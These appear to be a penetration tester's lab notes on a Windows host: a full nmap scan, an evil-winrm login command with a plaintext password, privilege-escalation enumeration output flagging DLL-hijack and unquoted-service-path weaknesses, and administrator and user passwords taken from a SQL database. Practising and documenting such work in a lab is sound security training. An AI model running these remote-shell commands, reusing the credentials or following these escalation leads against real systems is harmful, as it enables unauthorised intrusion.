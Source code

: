 ```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-14 17:00 EST
Nmap scan report for 192.168.212.96
Host is up (0.023s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest, SIPOptions, SSLSessionReq: 
|_    Host '192.168.45.237' is not allowed to connect to this MariaDB server
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=1/14%Time=6786DE9C%P=x86_64-pc-linux-gnu%r
SF:(SSLSessionReq,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.237'\x20is\
SF:x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")
SF:%r(FourOhFourRequest,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.237'\
SF:x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20se
SF:rver")%r(SIPOptions,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.237'\x
SF:20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20ser
SF:ver");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=1/14%OT=135%CT=1%CU=42043%PV=Y%DS=4%DC=T%G=Y%TM=678
OS:6DF48%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10D%TI=I%CI=I%TS=U)OPS(
OS:O1=M578NW8NNS%O2=M578NW8NNS%O3=M578NW8%O4=M578NW8NNS%O5=M578NW8NNS%O6=M5
OS:78NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T
OS:=80%W=FFFF%O=M578NW8NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T
OS:2(R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=8
OS:0%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%
OS:Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=N)

Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-14T22:03:41
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   19.87 ms 192.168.45.1
2   19.84 ms 192.168.45.254
3   21.58 ms 192.168.251.1
4   21.66 ms 192.168.212.96

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 207.52 seconds

```

- evil-winrm -i 192.168.181.96 -u apache -p 'New2Era4.!'
- Apache Server(Apache Software Foundation - Apache Server)["C:\xampp\apache\bin\httpd.exe" -k runservice] - Autoload                                 
    File Permissions: Authenticated Users [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\xampp\apache\bin (Authenticated Users [WriteData/CreateFiles])                                          
    Apache/2.4.48 (Win64)
     MySQL(MySQL)[C:\xampp\mysql\bin\mysqld.exe MySQL] - Autoload - No quotes and Space detected                                                         

    - File Permissions: Authenticated Users [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\xampp\mysql\bin (Authenticated Users [WriteData/CreateFiles])
- File: C:\Program Files\VMware\VMware Tools\vmtoolsd.exe -n vmusr (Unquoted and Space detected) - C:\ 
- MySQL(MySQL)[C:\xampp\mysql\bin\mysqld.exe MySQL] - Autoload - No quotes and Space detected                                                         
    File Permissions: Authenticated Users [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\xampp\mysql\bin (Authenticated Users [WriteData/CreateFiles])  

creds from sql database:
```
administrator   Almost4There8.?
charlotte       Game2On4.!
```